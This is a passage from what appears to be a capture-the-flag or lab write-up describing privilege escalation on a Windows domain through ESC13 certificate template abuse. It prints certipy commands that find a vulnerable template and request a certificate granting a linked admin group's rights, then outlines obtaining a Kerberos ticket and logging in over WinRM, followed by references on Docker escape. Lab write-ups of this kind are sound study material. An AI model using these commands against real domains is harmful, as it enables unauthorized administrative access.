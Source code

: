 ## Escalating privileges through ESC13

```bash
certipy find -u gabriel.stewart -vulnerable -target DC.vigilant.vl -dc-ip 10.10.182.37 -stdout
```

<img src="https://i.imgur.com/6G4zZpg.png"/>

certipy finds one template which gabriel can enroll, with a linked group `Temporary Admins`  having `EKU` set to Client Authentication, the template can grant privileges of a linked group to the user who enrolls for it without being part of that group, this is known as ESC13

<img src="https://i.imgur.com/BLerxnM.png"/>

Having this certificate we can become a local admin to domain controller

<img src="https://i.imgur.com/NZ98OKB.png"/>

```bash
certipy req -u 'gabriel.stewart' -ca 'vigilant-CA' -dc-ip 10.10.182.37 -target DC.vigilant.vl -template 'VigilantAdmins' -key-size 4096
```

<img src="https://i.imgur.com/LimxYrg.png"/>
Requesting TGT with the certificate

<img src="https://i.imgur.com/swofn45.png"/>
Now logging with winrm again but this time with ticket we obtained since this ticket represents that we are a member of temporary admin group

<img src="https://i.imgur.com/LvVXyF4.png"/>
<img src="https://i.imgur.com/IpLkuXI.png"/>


# References

- https://www.elastic.co/guide/en/fleet/7.17/view-elastic-agent-status.html
- https://www.elastic.co/guide/en/observability/current/synthetics-get-started-ui.html
- https://www.elastic.co/guide/en/observability/current/synthetics-recorder.html
- https://gist.github.com/secoats/44b9b42920ac4a825e54e7310303cfdb
- https://download.docker.com/linux/static/stable/
- https://madhuakula.com/content/attacking-and-auditing-docker-containers-using-opensource/attacking-docker-containers/insecure-volume-mount.html
- https://github.com/stealthcopter/deepce
- https://github.com/ly4k/Certipy/pull/196




